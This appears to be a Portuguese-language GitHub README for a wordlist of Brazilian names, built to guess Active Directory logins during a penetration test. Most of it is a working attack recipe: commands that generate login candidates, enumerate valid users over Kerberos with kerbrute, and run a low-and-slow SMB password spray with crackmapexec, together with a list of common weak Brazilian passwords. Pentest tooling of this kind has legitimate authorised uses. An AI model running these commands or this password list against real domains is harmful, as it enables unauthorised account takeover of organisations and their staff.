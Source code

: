 # Wordlist de nomes brasileiros  
> Este projeto surgiu no meio de um pentest aonde eu tinha somente acesso ao protocolo kerberos e o smb e precisava adivinhar logins de rede para realizar uma ataque de passwordspray.  

## Arquivos    
#### first-name-pt-br.txt:  
Contém uma lista de primeiros nomes brasileiros como por exemplo ana, carlos, henrique, etc...  

#### second-name-pt-br.txt:  
Este contém uma lista de sobrenomes brasileiros como carvalho, silva, souza, etc...  

#### name_and_surname.txt:  
Este arquivo contém uma mesclagem de primeiro nome e sobrenome.  

#### wordlist_login_pt_br.txt:  
Uma wordlist criada com o script python ```namemash.py``` para utilizar como teste para adivinhar logins validos.  

#### namemash.py:  
Script python para gerar padrões de login de rede.  

## Gerando logins:  
```bash
Smaug@erebor:~$ wget https://gist.githubusercontent.com/Outs1d3r-Net/4d9d674ce2885e282409fc2253f5df6b/raw/74f3de7740acb197ecfa8340d07d3926a95e5d46/namemash.py
Smaug@erebor:~$ for s in $(cat second-name-pt-br.txt);do for p in $(cat first-name-pt-br.txt);do echo "$p $s" >> name.txt;done;done
Smaug@erebor:~$ cat name.txt| sort | uniq > name_and_surname.txt; rm name.txt
Smaug@erebor:~$ python3 namemash.py name_and_surname.txt >> wordlist_login_pt_br.txt
```  
## Descobrindo logins validos:  
```
Smaug@erebor:~$ nmap -p88 192.168.0.1/24 --open
Smaug@erebor:~$ git clone https://github.com/ropnop/kerbrute; cd kerbrute
Smaug@erebor:~$ go build .
Smaug@erebor:~$ ./kerbrute userenum -d AD_NAME.LOCAL wordlist_login_pt_br.txt
```
#  
![evidence](img/img.png)  
#  
##### Checkpoint:  
```
Smaug@erebor:~$ cat wordlist_login_pt_br.txt |nl |grep beatriz.araujo
Smaug@erebor:~$ cat wordlist_login_pt_br.txt |tail -n $(($(wc -l wordlist_login_pt_br.txt | cut -d " " -f 1)-366773)) >> tmp
Smaug@erebor:~$ mv tmp wordlist_login_pt_br.txt
```

#### pass.txt:  
```
Mudar@123
P@ssw0rd
Pa55w.rd
Microsoft.123
Musc1234
Brasil@2020
Mudar123@
Busca123
Aval1234
Auto1234
Brasil@2019
Mudar123*
Bela@123
Senha123@
Mudar123
Email@123
Cambiar123@
Brasil123@
Mudar321@
q1w2e3R$
Brasil@1234
abcd=1234
Deus@123
Brasil@123
Brasil123
Cambiar@123
123qwe...
Mudar1234!
Jesus@123
Jesus@10
Senha231
Maria@123
Brasil@321
Password@2022
Brasil@1991
```  
## Ataque de LOW-AND-SLOW PasswordSpray:  
```bash
Smaug@erebor:~$ for p in $(cat pass.txt);do crackmapexec smb 192.168.0.10 -u valid_users.txt -p "$p" -d AD_NAME.LOCAL; sleep 400;done
```
  
:frog:  
